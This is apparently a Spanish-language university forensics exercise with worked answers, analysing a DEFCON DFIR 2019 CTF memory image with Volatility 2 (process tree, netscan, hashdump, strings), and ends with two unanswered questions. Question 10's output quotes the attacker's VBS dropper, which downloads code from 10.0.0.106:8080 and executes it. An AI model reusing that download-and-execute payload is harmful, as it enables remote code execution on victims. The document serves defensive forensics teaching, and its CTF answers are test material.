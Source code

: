 
## Objetivo

> El objetivo de esta práctica es que el alumno se familiarice con el uso de herramientas de análisis forense y sea capaz de encontrar información relevante a partir de imágenes de memoria. A mayores, el alumno también se familiarizará con los retos CTF y con los writeups que explican cómo llegar a la solución

## Corrección de la práctica y forma de entrega

>Esta práctica no se entrega ni cuenta para la nota final, pero es conveniente realizarla

## Materiales

>Para realizar los siguientes ejercicios necesitará Volatility 2.
>
>El archivo de imagen de memoria al que se refiere el enunciado corresponde al concurso CTF no oficial del DEFCON DFIR 2019. Es el archivo llamado “Triage-Memory.mem” que está disponible en la carpeta S:\ciberCEP\AnaliseFI\Ejercicio3a y en la carpeta de Google Drive:
>
>https://drive.google.com/drive/folders/1JwK8duNnrh12fo9J_02oQCz8HlILKAdW

## Instrucciones

>Instalar Volatility 2 en una máquina virtual Kali limpia. De esta forma se podrán usar comandos como file, strings, grep, sort o awk que ayudarán a trabajar con las salidas generadas por Volatility. Se recomienda de cara a las siguientes prácticas con Volatility tener dos máquinas distintas, una con Volatility 2 y otra con Volatility 3.
>
>Se recomienda dejar al menos 4 GB de RAM y 50 GB de disco e instalar Volatility y siguiendo las instrucciones de los apuntes.

## Ejercicios

>Responder a las siguientes preguntas:

> 1. ¿Cuál es el hash SHA-1 del archivo memory-triage.mem?

c95e8cc8c946f95a109ea8e47a6800de10a27abd

``` bash
shasum -a 1 ~/afi/Triage-Memory.mem

c95e8cc8c946f95a109ea8e47a6800de10a27abd  /home/kali/afi/Triage-Memory.mem
```

> 2. ¿Cuál es el perfil más apropiado para la máquina?

Win7SP1x64

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem imageinfo

Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/afi/Triage-Memory.mem)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf800029f80a0L
          Number of Processors : 2
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff800029f9d00L
                KPCR for CPU 1 : 0xfffff880009ee000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2019-03-22 05:46:00 UTC+0000
     Image local date and time : 2019-03-22 01:46:00 -0400
```

> 3. ¿Cuál es el PID del proceso notepad.exe?

3032

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 pslist | grep notepad

Volatility Foundation Volatility Framework 2.6.1
0xfffffa80054f9060 notepad.exe            3032   1432      1       60      1      0 2019-03-22 05:32:22 UTC+0000  
```

> 4. Nombre del proceso hijo de wscript.exe.

UWkpjFjDzM.exe

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 pstree | grep -A 3 wscript

Volatility Foundation Volatility Framework 2.6.1
.. 0xfffffa8005a80060:wscript.exe                    5116   3952      8    312 2019-03-22 05:35:32 UTC+0000
... 0xfffffa8005a1d9e0:UWkpjFjDzM.exe                3496   5116      5    109 2019-03-22 05:35:33 UTC+0000
.... 0xfffffa8005bb0060:cmd.exe                      4660   3496      1     33 2019-03-22 05:35:36 UTC+0000
. 0xfffffa80054f9060:notepad.exe                     3032   1432      1     60 2019-03-22 05:32:22 UTC+0000
```

Creemos que este proceso esta infectando, dumpealo, crea un hash y compruebalo en VirusTotal.

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 memdump -p 3496 -D ~/afi/

Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing UWkpjFjDzM.exe [  3496] to 3496.dmp


shasum -a 1 ~/afi/3496.dmp
0ae0bf49bb714df8399f46dee164bd3d59d04b40  /home/kali/afi/3496.dmp
```

![[Pasted image 20250217211326.png]]

> 5. ¿Cuál era la dirección IP de la máquina en el momento en el que se hizo la imagen de memoria?

10.0.0.101

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 netscan

Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Proto    Local Address                  Foreign Address      State            Pid      Owner          Created
0x13e057300        UDPv4    10.0.0.101:55736               *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05b4f0        UDPv6    ::1:55735                      *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05b790        UDPv6    fe80::7475:ef30:be18:7807:55734 *:*                                   2888     svchost.exe    2019-03-22 05:32:20 UTC+0000
0x13e05d4b0        UDPv6    fe80::7475:ef30:be18:7807:1900 *:*                                   2888 
```

> 6. Basándose en la respuesta relacionada con el PID infectado, ¿cuál es la IP del atacante?

10.0.0.106

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 netscan | grep UWkpjFjDzM.exe

Volatility Foundation Volatility Framework 2.6.1
0x13e397190        TCPv4    10.0.0.101:49217               10.0.0.106:4444      ESTABLISHED      3496     UWkpjFjDzM.exe 
```

> 7. ¿Cuál es el nombre del proceso relacionado con la librería VCRUNTIME140.dll?

Office

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 dlllist > ~/afi/dllist.txt

Volatility Foundation Volatility Framework 2.6.1


cat ~/afi/dllist.txt | grep VCRUNTIME140.dll

0x000007fefa5c0000            0x16000             0xffff 2019-03-22 05:32:05 UTC+0000   C:\Program Files\Common Files\Microsoft Shared\ClickToRun\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:33:49 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:34:37 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000                0x3 2019-03-22 05:34:49 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
0x00000000745f0000            0x15000             0xffff 2019-03-22 05:35:09 UTC+0000   C:\Program Files (x86)\Microsoft Office\root\Office16\VCRUNTIME140.dll
```

> 8. ¿Cuál es el valor del hash MD5 del potencial malware en el sistema?

6654c0ab83bb8fa9cb64c9078c9c8468

``` bash
md5sum ~/afi/3496.dmp

6654c0ab83bb8fa9cb64c9078c9c8468  /home/kali/afi/3496.dmp
```

> 9. ¿Cuál es el hash LM de la cuenta de Bob?

aad3b435b51404eeaad3b435b51404ee (El otro es el NTLM)

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 hashdump

Volatility Foundation Volatility Framework 2.6.1
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Bob:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> 10. Hubo un script VBS corriendo en la máquina. ¿Cuál es el nombre del script (sin extensión)?

Modo 1 con strings (no recomendable):

vhjReUDEuumrX

```bash
strings -a -td ~/afi/Triage-Memory.mem > ~/afi/string_raw.txt

strings -a -td -el ~/afi/Triage-Memory.mem >> ~/afi/string_raw.txt

python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 strings -s ~/afi/string_raw.txt > ~/afi/proc_strings.txt

cat ~/afi/proc_strings.txt | grep -A 2 ".vbs"

890276594 [3952:031c5af2] {.save|%TEMP%\vhjReUDEuumrX.vbs|Set x=CreateObject("Microsoft.XMLHTTP")
890799432 [3952:02182548] wscript.exe //B //NOLOGO %TEMP%\vhjReUDEuumrX.vbs
895821848 [3952:031aa818] /?search=%00{.save%7C%25TEMP%25%5CvhjReUDEuumrX.vbs%7CSet%20x=CreateObject(%22Microsoft.XMLHTTP%22)%0D%0AOn%20Error%20Resume%20Next%0D%0Ax.Open%20%22GET%22,%22http://10.0.0.106:8080/6KqFks7lU7q0%22,False%0D%0AIf%20Err.Number%20%3C%3E%200%20Then%0D%0Awsh.exit%0D%0AEnd%20If%0D%0Ax.Send%0D%0AExecute%20x.responseText.}
```

Modo 2 con cmdline y sabiendo que el proceso wscript.exe es el que ejecuta los virtual basic scripts:

``` bash
python2 vol.py -f ~/afi/Triage-Memory.mem --profile=Win7SP1x64 cmdline -p 5116
Volatility Foundation Volatility Framework 2.6.1

************************************************************************
wscript.exe pid:   5116
Command line : "C:\Windows\System32\wscript.exe" //B //NOLOGO %TEMP%\vhjReUDEuumrX.vbs
```

> 11. ¿Cuál es el nombre corto del archivo en el registro de la MFT 59045?

> 12. Este equipo ha sido comprometido y tiene una sesión de meterpreter. ¿Qué PID ha sido infectado?